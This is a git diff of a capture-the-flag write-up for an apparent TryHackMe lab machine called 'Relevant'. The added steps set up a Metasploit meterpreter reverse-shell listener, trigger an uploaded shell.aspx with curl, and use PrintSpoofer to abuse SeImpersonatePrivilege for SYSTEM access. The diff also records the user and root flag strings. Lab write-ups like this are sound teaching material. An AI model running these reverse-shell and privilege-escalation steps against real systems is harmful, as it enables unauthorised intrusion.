

Update Relevant

Changed region(s): [[0.0, 0.0561, 0.9606, 0.3645], [0.0, 0.5047, 0.9606, 0.785], [0.0, 0.8131, 0.3099, 0.9252]]

diff --git a/CTF/Relevant/README.md b/CTF/Relevant/README.md
@@ -93,7 +93,7 @@ Machine may take up to 5 minutes for all services to start.
 * Set listener on attacker machine
 
 	```
-	nc -nvlp 8888
+	msfconsole -q -x "use exploit/multi/handler; set LHOST 10.17.127.223; set LPORT 8888; set PAYLOAD windows/meterpreter/reverse_tcp; exploit"
 	```
 	
 	![listener](./images/listener.png)
@@ -101,11 +101,63 @@ Machine may take up to 5 minutes for all services to start.
 * Access the payload to get reverse shell
 
 	```
-	curl http://10.10.131.206:49663/nt4wrksv/shell.aspx
+	curl http://10.10.234.131:49663/nt4wrksv/shell.aspx
 	```
+
+	![curl](./images/curl.png)
+
+	![shell](./images/shell.png)
+
+* Get the user flag
+
+	![user](./images/user.png)
+
+* Run `getprivs` to check our privileges
+
+	![getprivs](./images/getprivs.png)
+
+	 We are granted with **SeImpersonatePrivilege**
+
+* Download **PrintSpoofer.exe** for exploit token **SeImpersonatePrivilege**
+
+	```
+	https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe
+	```
+
+	![download](./images/download.png)
+
+* Upload **PrintSpoofer.exe** on targer machine
+
+	```
+	cd "C:\inetpub\wwwroot\nt4wrksv"
+	upload PrintSpoofer.exe
+	```
+
+	![printspoofer](./images/printspoofer.png)
+
+* Run `cmd.exe` and run **PrintSpoofer.exe**
+
+	```
+	execute -f cmd.exe -i -H
+	PrintSpoofer.exe -i -c cmd.exe
+	```
+
+	![cmd](./images/cmd.png)
+
+* Get root file
+
+	![root](./images/root.png)
 
 ### Answer the questions below
 
 * User Flag
 
+	`THM{fdk4ka34vk346ksxfr21tg789ktf45}`
+
+	![user](./images/user.png)
+
 * Root Flag
+
+	`THM{1fk5kf469devly1gl320zafgl345pv}`
+
+	![root](./images/root.png) 
